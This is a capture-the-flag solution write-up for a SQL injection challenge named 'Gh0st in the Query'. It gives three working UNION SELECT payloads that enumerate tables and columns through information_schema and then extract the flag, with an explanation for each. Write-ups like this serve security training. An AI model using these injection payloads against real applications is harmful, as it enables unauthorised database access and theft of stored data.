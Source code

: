 # Solution: Gh0st in the Query

## Challenge Overview
Extract the flag from the database using SQL injection. The provided queries exploit the vulnerability to enumerate tables, columns, and finally retrieve the flag.

## How to Solve This Challenge

### Step 1: Enumerate Tables

```sql
s' union select 1,group_concat(TABLE_NAME),3 FROM information_schema.TABLES where TABLE_SCHEMA = database() -- -
```
**Explanation**: This query retrieves all table names in the current database by querying the `information_schema.TABLES` table. The `group_concat` function concatenates all table names into a single string for easy reading.

![Query 1](./images/1.png)

---

### Step 2: Enumerate Columns in the `flags` Table

```sql
s' union select 1,group_concat(COLUMN_NAME),3 FROM information_schema.COLUMNS where TABLE_NAME = "flags" -- -
```
**Explanation**: This query retrieves all column names in the `flags` table by querying the `information_schema.COLUMNS` table. The `group_concat` function concatenates the column names.

![Query 2](./images/2.png)

---

### Step 3: Retrieve the Flag
```sql
s' union select 1,group_concat(flag),3 FROM flags -- -
```
**Explanation**: This query retrieves the `flag` column values from the `flags` table. The `group_concat` function concatenates all flag values (if there are multiple).

![Query 3](./images/3.png)

---

### Step 4: Submit the Flag 

Copy the flag and submit it to complete the challenge!

---
